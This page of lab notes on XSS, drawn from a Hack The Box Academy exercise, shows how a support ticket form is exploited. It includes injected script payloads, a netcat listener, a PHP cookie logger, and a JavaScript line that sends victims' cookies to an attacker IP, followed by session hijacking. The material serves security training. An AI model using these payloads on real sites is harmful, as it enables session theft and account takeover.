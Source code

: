 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# XSS

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="left">

<figure><img src="../../../.gitbook/assets/xss_ticket_form.png" alt="" width="563"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}

{% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_test.png" alt=""><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

Next, we will **steal the cookie** of the support staff (Figure 3) by:

1. Creating a script (`index.php`) that will expand the stolen cookie.
2. Creating another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Passing a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}

{% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>

By creating a new session cookie (Figure 4) and refreshing the page we gain elevated access (Figure 5).

<div align="left">

<figure><img src="../../../.gitbook/assets/xss_creating_cookie.png" alt=""><figcaption><p>Figure 4: Creating a new session cookie.</p></figcaption></figure>

</div>

<figure><img src="../../../.gitbook/assets/xss_dashboard_access.png" alt=""><figcaption><p>Figure 5: Refreshing the page gives us dashboard access.</p></figcaption></figure>

